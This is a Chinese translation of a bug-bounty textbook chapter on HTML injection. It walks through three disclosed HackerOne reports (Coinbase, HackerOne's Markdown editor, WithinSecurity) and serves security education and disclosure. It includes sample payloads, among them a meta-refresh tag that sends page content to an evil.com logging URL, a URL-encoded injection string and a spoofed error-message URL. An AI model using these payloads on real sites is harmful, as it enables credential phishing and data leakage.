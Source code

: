 ## **五、HTML 注入**

>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0


## **描述**
超文本標記語言（HTML）注入有時也被稱為虛擬污染。這實際上是一個由站點造成的攻擊，該站點允許惡意用戶向其 Web 頁面注入 
<br>
HTML，並且沒有合理處理用戶輸入。換句話說，HTML 注入漏洞是由接收 HTML 
<br>
引起的，通常通過一些之後會呈現在頁面的表單輸入。這個漏洞是獨立的，不同於注入 Javascript，VBscript 等。
<p>
由於 HTML 是用於定義網頁結構的語言，如果攻擊者可以注入 HTML，它們基本上可以改變瀏覽器呈現的內容。有時，這可能會導致頁面外觀的完全改變，
<br>

或在其他情況下，創建表單來欺騙用戶，例如，如果你可以注入HTML，你也許能夠將`<form> `
<br>
標籤添加到頁面，要求用戶重新輸入他們的用戶名和密碼。然而，當提交此表單時，它實際上將信息發送給攻擊者。

---


### **1. Coinbase 評論**
```
難度：低
URL： coinbase.com/apps
報告鏈接： https://hackerone.com/reports/104543
報告日期：2015.12.10
獎金：$200
```
描述：
對於此漏洞，報告者識別出 Coinbase 在呈現文本時，實際上在解碼 URI 的編碼值。對於那
<br>
些不熟悉它的人（我在寫這篇文章的時候），URI 中的字符是保留的或未保留的。根據維基
<br>
百科，保留字是有時有特殊意義的字符，如 `/` 和 `&` 。未保留的字符是沒有任何特殊意義的
<br>
字符，通常只是字母。

因此，當字符被 URI 編碼時，它將按照 ASCII 轉換為其字節值，並以百分號（`%`）開頭。所以，`/`變成`%2F`，`&`成為`%26`。另外，ASCII 
<br>
是一種在互聯網上最常見的編碼，直到 UTF-8 出現，它是另一種編碼類型。現在，回到我們的例子，如果攻擊者輸入 HTML：

```html
<h1> This is a test</h1>
```

Coinbase 實際上會將其渲染為純文本，就像你上面看到的那樣。但是，如果用戶提交了 URL 編碼字符，像這樣：

```
%3C%68%31%3E%54%68%69%73%20%69%73%20%61%20%74%65%73%74%3C%2F%68%31%3E
```
Coinbase 實際上會解碼該字符串，並渲染相應的字符，像這樣：

```
This is a test
```

使用它，報告者演示瞭如何提交帶有用戶名和密碼字段的 HTML 表單，Coinbase 會渲染他。如果這個用戶是惡意的，Coinbase 就會渲染一個表單，它將值提交給惡意網站來捕獲憑據（假設人們填充並提交了表單）。


>重要結論
>
>當你測試一個站點時，要檢查它如何處理不同類型的輸入，包括純文本和編碼文本。特別要注意一些接受 URI 編碼值，例如`%2f`>，並渲染其解碼值的站點，這裡是`/`。雖然我們不知道這個例子中，黑客在想什麼，它們可能嘗試了 URI 編碼限製字符，並註意到 Coinbase >會解碼它們。之後他們更一步 URL 編碼了所有字符。

[http://quick-encoder.com/url](http://quick-encoder.com/url) 是一個不錯的 URL 編碼器。你在使用時會注意到，它告訴你非限製字符不需要編碼，並且提供了編碼 URL 安全字符的選項。這就是獲取用於 COinbase 的相同編碼字符串的方式

---

### **2. HackerOne 無意識 HTML 包含**
```
難度：中
URL：hackerone.com
報告鏈接：https://hackerone.com/reports/112935
報告日期：2016.1.26
獎金：$500
描述：
```

在讀完 Yahoo XSS 的描述（第七章示例四），我對文本編輯器中的 HTML 渲染測試產生了興
<br>
趣。這包含玩轉 HackerOne 的 Markdown 編輯器，在圖像標籤中輸入一些類似 `ismap=
"yyy=xxx"` 和 `"'test"` 的東西。這樣做的時候，我注意到，編輯器會在雙引號裡麵包含一個單
引號 - 這叫做懸置引號。
<p>
那個時候，我並沒有真正理解它的含義。我知道如果你在某個地方注入另一個單引號，兩個
<br>
引號就會被瀏覽器一起解析，瀏覽器會將它們之間的內容視為一個 HTML 元素，例如：
<br>

```html
<h1>This is a test</h1><p class="some class">some content</p>'
```
使用這個例子，如果你打算注入一個 Meta 標籤：
```html
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```
瀏覽器會提交兩個引號之間的任何東西。<br />
現在，結果是，這個已經在 HackerOne 的 [#110578](https://hackerone.com/reports/110578)報告中由 [intidc](https://hackerone.com/intidc) 公開。<p>

看到它公開之後，我有一點失望。<br />
根據 HackerOne，它們依賴於 Redcarpet（一個用於 Markdown 處理的 Ruby 庫）的實現，<br />
來轉義任何 Markdown 輸入的 HTML 輸出，隨後它會通過 React 組件<br />
的 dangerouslySetInnerHTML 直接傳遞給 HTML DOM（也就是頁面）。此外，React 是一個<br />
JavaScript 庫，可用於動態更新 Web 頁面的內容，而不需要重新加載頁面。<p>
DOM 指代用於有效 HTML 以及 格式良好的 XML 的應用程序接口。<br />
本質上，根據維基百科，DOM 是跨平台並且語言無關的約定，用於展示 HTML、XHTML 和 XMl 中的對象，並與其交互。<p>
在 HackerOne 的實現中，它們並沒有合理轉義 HTML 輸出，這會導致潛在的漏洞。<br />
現在，也就是說，查看披露，我覺得我應該測試一下心得代碼。我返回並測試了這個：
```html
[test](http://www.torontowebsitedeveloper.com "test ismap="alert xss" yyy="test"\ ")
```
它會變成
```html
<a title="'test" ismap="alert xss" yyy="test" ' ref="http://www.toronotwebsi\ tedeveloper.com">test</a>
```
你可以看到，我能夠將一堆 HTML 注入到 `<a>` 標籤中。<br />
所以，HackerOne 回滾了該修復版本，並重新開始轉義單引號了。


>重要結論
>
>僅僅是代碼被更新了，並不意味著一些東西修復了，而是還要測試一下。當部署了變更
>之後，同時意味著新的代碼也可能存在漏洞。
>此外，如果你覺得有什麼不對，一定要深入挖掘。我知道一開始的尾後引號可能是個問
>題，但是我不知道如何利用它，所以我停止了。我本應該繼續的。我實際上通過閱讀
>XSS Jigsaw 的 了解了 Meta 刷新利用。



---


### **3. WithinSecurity 內容偽造**
```
難度：低

URL：withinsecurity.com/wp-login.php
報告鏈接：https://hackerone.com/reports/111094
報告日期：2015.1.16
獎金：$250
```
描述：
<p>
雖然內容偽造實際上和 HTML 注入是不同的漏洞，我也將其包含在這裡，因為它們擁有相似的本質，攻擊者讓一個站點渲染它們選擇的內容。
<p>
WithinSecurity 構建在 WordPress 平台之上，它包含登錄頁面withinsecurity.com/wp-login.php（這個站點已經合併到了 HackerOne 的核心平台中）。攻擊者註意到了在登錄過程中，如果發生了錯誤，WithinSecurity 就會渲染access_denied，同時對應 URL 中的error參數：

<pre>
https://withinsecurity.com/wp-login.php?error=access_denied
</pre>

注意到了這個，攻擊者嘗試修改`error`參數，並發現無論參數傳遞了什麼值，都會被站點渲染為錯誤信息的一部分，並展示給用戶。這裡是所用的示例：


<pre>https://withinsecurity.com/wp-login.php?error=Your%20account%20has%20%hacked</pre>

![5](https://raw.githubusercontent.com/dyeat/Document_read/master/Web_Hacking_101/image/5-1.jpg)

WithinSecurity 內容偽造

這裡的關鍵是注意到 URL 中的參數在頁面中渲染。雖然他們沒有解釋，我可以假設攻擊者註意到了`access_denied`展示在了頁面上，但是也包含在 URL 中。這裡他們也報告了，漏洞也可以由一個簡單的測試，修改`access_denied`參數來找到。

>重要結論
>
>時刻關注傳遞並且渲染為站點內容的 URL 參數。他們可能就是攻擊者的機會，用於欺騙受害者來執行一些惡意動作。


## 總結
HTML 注入向站點和開發者展示了漏洞，因為他可以用於誤導用戶，並且欺騙它們來提交一些敏感信息，或者瀏覽惡意網站。就像釣魚攻擊那樣。
<p>
發現這些漏洞並不是通過僅僅提交 HTML，而是弄清楚站點如何渲染你的輸入文本，像是 URI 編碼的字符。而且，雖然內容偽造並不和 HTML 注入完全一樣，它也是類似的，因為它涉及讓一些輸入在 HTML 頁面中反映給受害者。攻擊者應該仔細尋找機會，來操縱 URL 參數，並讓它們在站點上渲染。
